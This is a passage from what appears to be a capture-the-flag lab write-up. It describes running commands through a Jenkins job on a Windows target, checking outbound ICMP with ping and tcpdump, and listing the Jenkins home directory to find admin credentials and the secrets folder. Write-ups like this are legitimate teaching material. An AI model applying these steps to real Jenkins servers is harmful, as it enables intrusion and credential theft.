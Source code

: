 While there’s a good size list returned, none of them end up being useful. Many are for specific programs, or else the blocking rule out prioritizes them. I wasn’t able to get anything outbound except for ICMP. On setting the command to `cmd /c ping 10.10.14.6` and triggering, it does show up at a listening `tcpdump`:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
17:43:49.158637 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 3, seq 27762, length 40
17:43:49.158711 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 3, seq 27762, length 40
17:43:50.166486 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 3, seq 27765, length 40
17:43:50.166516 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 3, seq 27765, length 40
17:43:51.182067 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 3, seq 27768, length 40
17:43:51.182096 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 3, seq 27768, length 40
17:43:52.197333 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 3, seq 27771, length 40
17:43:52.197371 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 3, seq 27771, length 40

```

### Jenkins Enumeration

#### Look for Creds

I’ll look for the creds associated with the admin account. This could get more access in Jenkins, or perhaps give WinRM access to the host. [This article](https://blog.searce.com/jenkins-change-the-forgotten-password-525169ba1c34) talks about how each user’s information is stored in a `config.xml` file. [This article](https://www.jenkins.io/doc/developer/security/secrets/) talks about the encryption used to store secrets.
*Note: I’m still running commands by editing the job, triggering it, and then checking the console output. For the sake of readability, I’ll just be showing the output from this point on unless there’s a reason to show it.*

Looking at the previous console returns, it’s clear the job is running from `C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job`. Looking up a couple directories:

```

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c ls ..\.. 

    Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        2/27/2022   3:49 AM                jobs                                                                  
d-----       10/20/2021  10:19 PM                logs                                                                  
d-----       10/20/2021  10:08 PM                nodes                                                                 
d-----       10/20/2021  10:12 PM                plugins                                                               
d-----       10/20/2021  10:26 PM                secrets                                                               
d-----       10/25/2021  10:31 PM                updates                                                               
d-----       10/20/2021  10:08 PM                userContent                                                           
d-----        2/26/2022   1:59 PM                users                                                                 
d-----       10/20/2021  10:13 PM                workflow-libs                                                         
```